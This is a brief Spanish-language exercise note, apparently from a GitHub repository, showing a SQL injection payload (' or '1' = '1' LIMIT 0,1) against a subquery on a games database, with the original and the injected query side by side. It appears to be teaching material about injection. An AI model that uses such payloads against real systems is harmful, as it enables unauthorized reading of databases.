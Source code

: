 ## Query 1

### Inyección: ` or '1' = '1' LIMIT 0,1`

El payload ` or '1' = '1' LIMIT 0,1` resuelve lo siguiente:

1. se debe poner `LIMIT` ya que este tipo de query solo arroja un resultado, en caso de poner únicamente el `or 1 = 1`

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');

SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción' or 1 = 1 LIMIT 0,1);
````
